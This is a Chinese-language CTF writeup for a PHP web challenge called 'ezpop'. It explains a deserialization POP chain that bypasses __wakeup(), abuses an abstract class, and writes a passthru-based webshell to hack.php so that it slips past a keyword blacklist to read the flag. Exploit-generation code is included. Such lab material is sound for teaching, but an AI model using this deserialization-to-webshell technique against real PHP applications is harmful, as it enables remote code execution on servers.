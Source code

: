- **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：**

- **flag：**

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入shell方法，此方法为抽象方法，在子类里实现，所以便进入evil的shell方法，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    protected $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract protected function shell();

    public function action() {
        $this->shell();
    }
}
class normal{
    function action(){
        echo "you must bypass it";
    }
}
class evil extends hack {
    protected $data;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
    }
    protected function shell(){
        $hack=fopen("hack.php","w") or die("Unable 2 open");
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/i',$this->data)){
            die("you die");
           }
        fwrite($hack,$this->data);
        fclose($hack);
    }
}
$a=serialize(new Openfunc());
echo $a;
echo urlencode($a);
?>
```

